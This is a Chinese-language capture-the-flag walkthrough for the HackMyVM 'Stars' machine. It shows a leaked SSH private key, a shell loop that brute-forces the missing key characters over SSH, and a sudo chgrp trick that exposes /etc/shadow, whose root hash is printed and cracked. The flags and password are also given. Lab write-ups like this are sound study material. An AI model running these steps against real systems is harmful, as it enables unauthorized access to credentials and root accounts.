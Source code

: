 # Stars

2024.12.29 https://hackmyvm.eu/machines/machine.php?vm=Stars

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

只开放了一个 80 web 服务，扫描目录，发现: http://192.168.5.40/sshnote.txt

```
My RSA key is messed up, it looks like 3 capital letters have been replaced by stars.
Can you try to fix it?

sophie
```

发现一个用户名 sophie, 说他的 ssh 密钥中有 3 个大写字符被星号替换了。现在需要找到这个 ssh 私钥。

gobuster 使用大字典也没发现具体隐藏的文件，在仔细看看请求的返回值吧，发现请求的 cookie 中有信息：

```
cookie=cG9pc29uZWRnaWZ0LnR4dA%3D%3D

poisonedgift.txt
```

在访问下这个文件 poisonedgift.txt 发现了私钥：

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsruS5/Cd7clZ+SJJj0cvBPtTb9mfFvoO/FDtQ1i8ft3IZC9tHsKP
ut0abGtFGId9R0OB1ONB+iOMK5QNpoCXda3RDXJQ9oRCWjd2DxqRAyvdThhxq6wYJSATpa
l7M9UemrK/aDuZTAqLUSA9Zvpx474TiWXBMjdGqN2K/+SCf/DqIyknDLDRexe0Lc0IsNCV
/O39j4XJprHXMQZNaiokSuzV3VlXAYYBcTIK2Id/EMerpQdiNjMGvVIuBxfbF9/MGhEnR+
1fxxPTHZnKw5snlb47ynWtahCuZVVQr0b+c5z6MXVSJKP8LY0m8clQqUCwbPbCJnRJRCwh
TJY/xz0cu4H+Lbtx38iUv6NjiPXsvd/0FPjmNWrIwA3m4yYQL1dmSCX7JZAqYV5axI8box
Z4oHJP5dHADWdzic2XSqDSpIMxnDhlLh02ksCfNbkNkqbsiw/AO6IxnToPLH7jVjoYxnmA
y97klEGvt2UqIugfUV1p6j1sybTcM59ZUbo16i47AAAFiNnGZRvZxmUbAAAAB3NzaC1yc2
EAAAGBALK7kufwne3JWfkiSY9HLwT7U2/Znxb6DvxQ7UNYvH7dyGQvbR7Cj7rdGmxrRRiH
fUdDgdTjQfojjCuUDaaAl3Wt0Q1yUPaEQlo3dg8akQMr3U4YcausGCUgE6WpezPVHpqyv2
g7mUwKi1EgPWb6ceO+E4llwTI3Rqjdiv/kgn/w6iMpJwyw0XsXtC3NCLDQlfzt/Y+Fyaax
1zEGTWoqJErs1d1ZVwGGAXEyCtiHfxDHq6UHYjYzBr1SLgcX2xffzBoRJ0ftX8cT0x2Zys
ObJ5W+O8p1rWoQrmVVUK9G/nOc+jF1UiSj/C2NJvHJUKlAsGz2wiZ0SUQsIUyWP8c9HLuB
/i27cd/IlL+jY4j17L3f9BT45jVqyMAN5uMmEC9XZkgl+yWQKmFeWsSPG6MWeKByT+XRwA
1nc4nNl0qg0qSDMZw4ZS4dNpLAnzW5DZKm7IsPwDuiMZ06Dyx+41Y6GMZ5gMve5JRBr7dl
KiLoH1Fdaeo9bMm03DOfWVG6NeouOwAAAAMBAAEAAAGBAICL9cGJRhzCZ0qOhXdeDAw6Mi
1MyGX/HQ4Nqkd4p8FbA4hCr+mipzsPULTPhdd5gvnhLJyPgmFEdcjV5+drrwM9KxDPujlC
sHIwV2HPiqJMRxOm8wI0eP0ij97jATArRKKgkpeF3eBZ6Q9E78SDtavFhkmYfJYAOXq0NA
eNMuqPu+Xj8CjpdxBf4P/b6jc5HdbW2DoEUB7q40loLf+AJbAZnEthuPjoh1sBUdmfwhyw
btv3boRquJsrYt1JJ***qguwyDSLtXj4Wuxa7jZcLLSAuTHS+zWKwZA/8J1IpZAZhgkVXJ
fC8ZbG0M63VEQjuGXCuIY3cq1iQuXERhhbRuJ1XZT8Hki5YBaU/f5Wp7bId25Aps4ktljU
r67S9mwwppQ8dVmP6CsENgc3ivpWCDWC4PZojTgZ4qhWMpjCaUxe1Hi7GuvlRJNLL4A7Fx
kTV9nBcLlGfqzvVUPeEAZgXz4IxCx8KdTrDr/oXWw4hjqtuyRKveMjmKQ6HADFl7SMCQAA
AMBz8rqB0Mfb4U34LeA1kdZLFsGX3AZqahTDjEcZYAPI/A5Dt5iw0LcGRgrHuPccS5fA3E
GT2FceoMX2ccE5fEVydxcj2vcnPIQ01P6fxjVXpA7QDnJ2At2LLPcD9CuuSt/HCrp/Bmjv
IUFvjSgKl5nYGPfoeitIdFdM72liQ+0814iNzxNl5WuNeiJ+XAGuXqJT02gAxMRQPiJ67e
sMzJyVvM69B0kGkyAXTO9fcfq+X2JaCz3hId6Iwr68Mxe/L6MAAADBAOEpkHeU8xn5MHwG
79vpd6Cg7p1UqfDuvMOgvZe6eIOE3FIb1nWpCqjq9P0Myv8aCWYhwgKr3SNIWkZ1u+0NR9
43cZO7FWa4/DvI5gX6dlrcGy1BVoDuMWIWDw9bgXpQiGQSkQOQ3J/RPWH/xT5LQbrBVTK8
C8r4lrWDwWLMgk1Wbef6U0NBuY1+J4Hafsz2Psei3yFsjjA3djonb8JF+RnHRoO8TeJlj4
RjbkXTlhsGkdR77PNZmkZ2KVwn2VzsPwAAAMEAyzYixNTrJ4vPtjUluq7+O9qGwqpbl3i0
9ESSrC2NzbsA2afNjCWhfaLPpfNYR2gA1aQUgdRxNSM78P+plFhMUeGwTIsLsKEkbbtSqF
nUU/g3yNGFr4Die7AB0vZSHwWaQFMf+ZfXNwVRa0jmKfUc/itXgwxi3oqtWTJA7YKmXdrD
03EN/DboyflPcbmTJ4D6E6XqTeyfGamr0w5aelqqwTh/Mm+DuoHHiPMYThUMrG4iUvSRaz
ZgGQTtZoQRxi8FAAAADXNvcGhpZUBkZWJpYW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

看到私钥中有 3 个星号，现在需要对私钥进行恢复成 3 个大写字符。

创建字典：

```
crunch 3 3 ABCDEFGHIJKLMNOPQRSTUVWXYZ > dict.txt
```

编写脚本替换其中的星号，然后用新密钥尝试登陆 ssh：

```
mkdir op
for i in $(cat dict.txt); do sed -e "s/\*\*\*/$i/g" rsa.txt > ./op/$i;done
chmod 600 op/*
for i in $(ls op); do echo $i; ssh -i ./op/$i sophie@192.168.5.40;done
```

最终发现被替换的字符是 BOM，进入后，拿到 user flag：

```
sophie@debian:~$ cat user.txt
a99ac9055a3e60a8166cdfd746511852
```

sudo -l 发现：

```
(ALL : ALL) NOPASSWD: /usr/bin/chgrp
```

更改文件所属组，将 /etc/shadow 所属组更改为 sophie:

```
sudo chgrp sophie /etc/shadow

root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
```

对 root 的哈希进行爆破，得到最终的密码为:barbarita 切换到 root 用户得到 root flag：

```
root@debian:~# cat root.txt
bf3b0ba0d7ebf3a1bf6f2c452510aea2
```
